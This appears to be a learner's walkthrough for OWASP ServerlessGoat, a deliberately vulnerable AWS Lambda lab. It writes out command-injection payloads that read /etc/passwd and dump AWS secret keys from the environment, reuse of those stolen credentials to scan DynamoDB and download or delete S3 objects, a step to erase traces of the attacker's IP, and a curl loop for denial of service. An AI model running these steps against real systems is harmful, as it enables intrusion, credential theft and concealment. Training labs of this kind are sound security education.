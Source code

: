 # serverless-goat Walkthrough

*Still to add **INSTALL/REMOVAL** steps*

## Lambda Function API
1. Locate the Endpoint URL under CloudFormation Outputs
2. Navigate to URL in a separate browser  
The endpoint loads an OWASP ServerlessGoat page containing a form consisting of 
      * a single user input textbox and submit button  
      * a list of potential vulnerabilities  
3. Click Submit with the currrent value in place  
This loads a A Poison Tree poem with a URL that seems remarkably close to an s3 bucket address  
**Save this URL For Later, or skip to (###S3 Bucket Access with No Credentials) see it's use now**

## Information Gathering
1. Click back on the browser to return to the page 
2. Attempt **Function Data Injection** by adding code to the end of the URL  
*e.g. try adding*`; pwd`
3. Click submit to load the original poem as well as **Improper Exception Handling and Verbose Error**  
  *this appears to be vulnerable to __Function Data Injection__*
### Improved injection attempts
1. Click back and change the URL form to a URL that doesn't contain a doc file followed by a snippet of code  
e.g. `https://inject; pwd`
2. Click submit to load the current working directory */var/task* 
3. Repeat this tasks with the following bash code add for more information resulting from **Over-Privileged Function Permissions**  
**Document everything for later**    
`https://inject; whoami`
   *Current user should be sbx-user0666 or similar*   
`https://inject; ls -la`
    *Lists the current directory (index.js + node_modules subdirectory)*   
`https://inject; cat /etc/passwd` 
  *Lists current users*  
`https://inject; cat index.js`
    *Provides code for basic information on how this page functions*   
    Important information to be gathered from this file includes
      * Database 
      * S3 bucket Put permissions
      * node.js package used 
      * Table information 
      * Permissions to curl (potentially) 
      * Output URL 
 4. Explore file contents  
 `https://inject; cat node_modules/.bin/uuid`   
 USAGE: `uuid [ver] [options]` + some encryption math used to generate keys  
 this doesn't seem to be entirely random
 5. Read more javascript
  `https://inject; cat node_modules/node-uuid/package.json`  
  *lists package version*  
  Research into this version of UUID results in a known vulnerability to insecure randomness  
  **TL:DR;** math.random can produce predictable values and this in an **Insecure 3rd Party Dependency**  
  keys generated and for storage in the s3 bucket may be predicted  
  This could be *very* interesting if it was used to store PII, but it isn't for this circumstance  
 6. Check for unsecured environmental variables  
 `https://inject; env`  
 Results in **Insecure Application Secrets Storage**: 
       * aws_session_token
       * aws_secret_access_key
       * aws_access_key
       * table name
       * s3 bucket name

### S3 Bucket Access with No Credentials
1. Explore the bucket address by opening a new tab, and copying/pasting the URL in the old tab with modifications  
    * URL Modifications for the 2nd tab:  
      - remove the last portion of the URI (e.g. /a3243c-321c-9d21-342f3ebc2a09)  
      - change the s3-website-us-east-1.amazonaws.com to be a correct bucket address (s3.amazonaws.com)
2. Now that the URL modifications have been made, load the s3 bucket  
This site contains information concerning the s3 bucket contents, and each Key listed can be added to the URL as a path  
This site does has a **Broken Authentication** vulnerability because it does not require any authorization for access  
This site also contains the **Insecure Serverless Deployment Configuration** vulerability for the following reasons
      * The s3 bucket URL should not be easy to infer
      * This page should be secured and encrypted instead of being publicly accessible 
Return to the previous tab

### Enumeration
#### Node.js Access Enumeration
Attempt to access content/information using Node.js  
1. What version of node.js?  
`https://; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log("Running Node.js" + process.version))})();'`
2. Can the database be scanned?  
`https://; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'`
3. Can the database be queried?
4. Does GetItem work?
5. Does PutItem work?
6. Does UpdateItem work?
??? Do I enumerate all the things? Can I automate this?
7. Can the s3 buckets be scanned?

#### Profile Enumeration
1. Using the information found in the env variables create a user profile 
`aws configure profile --user666`  
    * aws_secret_access_key    
    * aws_access_key   
    * us-east-1
2. Add the aws_session_token to the end of the user profile configuration by editing the *~/.aws/credentials* file  
`vim ~/.aws/credentials`  
`aws_session_token = <aws_session_token>`
3. Obtain current profile information 
`aws sts get-caller-identity --profile user666`  
**Improper Exception Handling and Verbose Errors**
4. How do I discover information about this profile/user/permissions/roles?

#### Database Actions Enumeration
1. Attempt to DescribeTable

2. Attempt to scan the database contents  
`aws dynomodb scan --table-name <table-name> --profile user`
3. Attempt to Query the database
4. Attempt to GetItem
5. Attempt to DeleteItem
6. Attempt to UpdateItem
7. Attempt to BatchWriteItem
8. Attempt to BatchGetItem
9. What other DB action policies are there to be enumerated?

#### S3 Bucket Actions Enumeration
1. Attempt ListBucket
`aws s3 ls <s3-bucket> --profile user` 
2. Attempt GetBucketLocation
3. Attempt GetLifecycleConfiguration
4. Attempt PutLifecycleConfiguration
5. Attempt GetObject
6. Attempt GetObjectAcl
7. Attempt GetObjectVersion
8. Attempt PutObject
9. Attempt PutObjectAcl
2. Attempt to download bucket contents  
`aws s3 sync s3://<s3-bucket> . --profile user`
3. Review downloaded bucket content  
`ls -la`
4. Display commands run via Lambda Function
`cat <key>`
5. Attempt to delete bucket contents  
`aws s3api delete-object --bucket <s3-bucket> --key <key> --profile`
6. Remove all traces of requests by your IP address by repeated step 5 for each key value found  

### DoS Attack
Create a simple bash script to curl the site multiple times   
This will demonstrate the serverless function going from reachable to unreachable  
*internal server errors* are proof of a successful DoS Attack
1. Start with the http address after a function is sent  
(https://<x>.execute-api.us-east-1.amazonaws.com/Prod/api/convert?document_url=)
2. Copy the address between brackets, URL encode it, and then add to the end of the address 
3. Repeat Step 2 5x for the <http-address> value, which will perform the DoS
4. The run the following bash script  
``` bash
for i in {1.100}; do  
  echo $i  
  curl -L <http-address>  
done
```

